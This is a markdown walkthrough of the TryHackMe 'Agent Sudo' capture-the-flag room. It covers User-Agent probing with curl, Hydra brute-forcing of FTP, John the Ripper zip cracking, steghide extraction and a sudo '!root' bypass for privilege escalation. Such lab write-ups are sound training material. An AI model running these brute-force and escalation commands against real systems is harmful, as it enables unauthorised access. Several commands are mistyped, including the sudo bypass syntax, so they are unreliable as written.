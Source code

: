 ```yaml
---
layout: page
title: Agent Sudo WalkThrough
permalink: /CTF/agentSudo
tags: TryHackMe

---
```

# Agent Sudo 
# ![front](/images/agentsudo/front.png)
[https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)

## Open Ports:
  - 21: ftp
  - 22: ssh
  - 80: HTTP
  
## Port 80:
1. **Index Page**
![1](/images/agentsudo/1.png)
  - we can brute force different Agents
  ```
    >Curl "http://ip" -H "User-Agent: A" -L
    >Curl "http://ip" -H "User-Agent: B" -L
    >Curl "http://ip" -H "User-Agent: C" -L
  ```
![2](/images/agentsudo/2.png)

## Port 21:
1. Brute force ftp using **Hydra**  to find the _password_
  ```
  hydra -l cxxxx -P /rockyou.txt ftp://ip
  ```
![3](/images/agentsudo/3.png)
2. After logging we will find 3 files _(1 txt, 2 imgs)_
  - binwalk the image we find a zip file inside the image
  - As the zip file is password protected we can use **johnTheRipper** to crack it.
    ```
    John2zip 8072.zip > hash.txt
    John hash.txt --wordlist=/rockyou.tx
    ```
![4](/images/agentsudo/4.png)
 3. Now we find a text file for Agent R
  - It has the passwd in base64
    ```
    echo " " |base64-d (Area51)
    ```
 4. Extracting cute-alien.jpeg file using the password found in **To_AgentR.txt**
    ```
    steghide extract -sf cute-alien.jpeg
    ```
![5](/images/agentsudo/5.png)

   
## Gaining Access:
 **We Found username and password in _message.txt_**
 1. Logging in via ssh
 
### USER Flag:
![user](/images/agentsudo/user.png)
2.Download the image 
  - scp james@ip:/home/james/image.jpeg .
  - Now search in the web (_use google image search_)
 


## Privilege Escalation:
 1. sudo -l
   - [All,!root] /bin/bash
   **To bypass this**
    ```
    sudo #u-1 /bin/bash
    ```
### Root Flag:
![root](/images/agentsudo/root.png)
